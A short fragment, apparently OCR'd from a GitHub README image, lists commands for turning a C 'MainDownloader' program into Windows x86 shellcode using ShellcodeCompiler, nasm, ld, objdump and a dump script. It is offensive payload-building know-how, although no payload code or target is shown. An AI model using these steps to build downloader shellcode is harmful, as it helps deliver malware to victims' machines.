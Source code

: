 To create the payload we will make our lives easier by using the shellcode Compiler from: https://github.com/NytroRST/ShellcodeCompiler

Use it as follows:
 - gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon

 - ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86
    * You must manually modify the assembly in order to fix it:
        + mov eax, fs:[ecx + 0x30]
        + mov eax, [fs:ecx + 0x30]
 - nasm -g -f win32 _assembly.asm -o _assembly.o
 - C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe

 - (Inside gitBash) Manually execute 'objdump -d _assembly.exe' and paste the result inside 'tmp.txt'
 - python dumpShellcode.py tmp.txt
